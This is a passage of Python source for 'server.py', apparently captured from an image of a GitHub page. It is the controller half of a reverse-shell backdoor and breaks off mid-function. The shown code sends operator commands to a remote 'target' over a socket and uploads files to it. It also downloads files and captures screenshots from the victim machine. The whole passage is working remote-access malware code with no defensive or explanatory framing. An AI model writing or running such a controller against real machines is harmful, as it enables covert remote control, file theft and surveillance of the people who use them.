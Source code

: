 ```
#!/usr/bin/env python

# server.py

import socket
import termcolor
import json
import os

def reliable_recv():
    data = ''
    while True:
        try:
            data = data + target.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    jsondata = json.dumps(data)
    target.send(jsondata.encode())

def upload_file(file_name):
    f = open(file_name, 'rb')
    target.send(f.read())

def download_file(file_name):
    f = open(file_name, 'wb')
    target.settimeout(1)
    chunk = target.recv(1024)
    while chunk:
        f.write(chunk)
        try:
            chunk = target.recv(1024)
        except socket.timeout as e:
            break
    target.settimeout(None)
    f.close()


def target_communication():
    count = 0
    while True:
        command = input('* Shell~%s: ' % str(ip))
        reliable_send(command)
        if command == 'quit':
            break
        elif command == 'clear':
            os.system('clear')
        elif command[:3] == 'cd ':
            pass
        elif command[:6] == 'upload':
            upload_file(command[7:])
        elif command[:8] == 'download':
            download_file(command[9:])
        elif command[:10] == 'screenshot':
            f = open('screenshot%d' % (count), 'wb')
            target.settimeout(3)
            chunk = target.recv(1024)
            while chunk:
                f.write(chunk)
                try:
                    chunk = target.recv(1024)
```
